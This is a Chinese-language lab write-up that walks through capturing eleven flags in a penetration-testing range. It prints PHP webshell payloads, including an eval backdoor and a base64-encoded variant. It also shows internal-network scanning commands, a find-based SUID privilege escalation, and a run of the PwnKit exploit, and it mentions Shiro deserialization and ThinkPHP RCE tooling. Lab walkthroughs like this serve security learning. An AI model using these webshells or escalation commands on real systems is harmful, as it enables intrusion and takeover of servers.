## 第一个flag（F12）

进来发现是个语言教程的场景，web第一步，f12开启！
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010195101975-1503837602.png)

## 第二个flag(后台扫描、php修改代码写shell)

果然一眼丁真，他说第二个flag要管理员才能拿，就想着拿一下权限试试
 在刚进来的一开始我们就发现了这是个语言教程的场景的靶场，而这种靶场是需要语言运行环境，若权限设置不当，很容易造成rce，于是直接找到我们的老朋友PHP，简单尝试一下，果然可以！
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010200019540-465545283.png)

于是乎拿出珍藏已久的payload一打，这两个都是可以的


```
<?php
fputs(fopen("shell.php","w"),'<?php eval($_POST[123]);?>');
?>

<?php
system("echo PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg== | base64 -d >0vers1eep.php & ls");
?>
```

[](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018191407322-934907500.png)

拿蚁剑进行连接
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018191519285-1535233469.png)
 也是成功上线,(但是最后发现是我理解错误，他说的管理员权限是登录网站后台，而我误以为是拿到权限)
 于是去尝试登录网站后台
 直接在url后加admin
 账号密码：admin/admin，即可成功登录后台拿取第二个flag
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010200754411-478909158.png)

## 第三个flag

根据提示在根目录，去根目录进行翻找（前面已经拿到权限）
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010200948382-1965863365.png)
 第三个flag get！

## 第四个flag(查找数据库配置文件、连接数据库)

根据提示下一个在数据库和root权限下，我们先用哥斯拉尝试连接翻找数据库
 用哥斯拉生成一个后门文件，通过蚁剑把后门文件上传到后台，在数据库翻找一下配置文件
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010202428905-1102813527.png)
 找到后配置一下
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010202458386-614696897.png)
 即找到数据库flag
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010202544213-448422316.png)

## 第五个flag（pwn）

不大会（有懂的师傅可以教教）

## 第六个flag(内网、目录扫描、代理搭建)

开始我们的内网之旅！
 上传fscan扫描一波，用到的语句如下
 上传文件fscan_386


```
chmod 777 fscan_386                       //给文件加权限
ifconfig                                  //看ip地址
./fscan_386 -h 192.168.0.2/24 -o 0vers1eep.txt   //开扫！并把扫描结果放到一个名为0vers1eep.txt的文件里
```

[](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018192034141-1489761659.png)
 成功导出0vers1eep.txt文件，接下来就是开代理上内网
 我用的是neoreg和Proxifier代理（此工具使用就不演示了，有问题可私聊我一下）
 成功登录内网
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018193400868-1989915056.png)
 我们拿御剑等扫描工具扫一下
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018193631907-1468177882.png)
 成功在robots.txt文件中发现第六个flag

## 第七个flag（shiro）

尝试弱口令登录并抓包
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019115743089-1058397739.png)
 结果意外发现rememberMe=deleteMe，可能存在shiro反序列
 于是利用利用工具一把梭哈
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019115654207-787433675.png)
 生成后门尝试连接
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019120009494-601631243.png)
 连接上去发现第七个flag

## 第八个flag(find suid提权)

我们继续基本思路，尝试提权
 先查看确定flag的路径
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019142322274-1500132359.png)
 可见`/home`下的flag我们已经获取，就差`/root`权限下的flag
 我们尝试使用suid提权进行查看flag


```
find anyfile -exec whoami \;             //anyfile：在你所在的目录文件下的任意文件
find anyfile -exec cat /root/flag  \;    
```

[](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019142541562-2086537416.png)
 成功提权
 查看flag
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019142621775-322955582.png)
 成功获取flag

## 第九个flag（thinkphp RCE）

根据基本思路（普通用户—>后台用户—>数据库—>root提权），上个站的flag也基本拿完了，于是我们换下一个站继续
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019112050685-1873711736.png)
 直接上尚方宝剑
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019112217049-2103908400.png)
 蚁剑连接后直接拿下flag
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019112257817-1081638872.png)

## 第十个flag(翻数据库)

依旧是换汤不换药
 哥斯拉连接数据库，查看flag
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019113714938-168564233.png)
 成功拿下，根据提示继续拿root权限

## 第十一个flag（CVE-2021-4034-pwnKit提权）

得拿下root权限，这里需要用到CVE-2021-4034
 上传payload文件后


```
chmod 777 PwnKit                  //加权限
./PwnKit 'cat /root/flag'         //查看flag  
```

即可得到最后一个flag
 [](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019114515629-1210059629.png)
 到这里，一次愉快的靶场渗透之旅就结束了！！！
 **总结**
 要形成一个渗透的基本思路：简单来说就是，想尽办法从低权限到高权限。
 不要局限与一种方法，尝试多种方法来达到自己的想要的结果。
 多尝试，多动手，多思考。
 读万卷书，行万里路！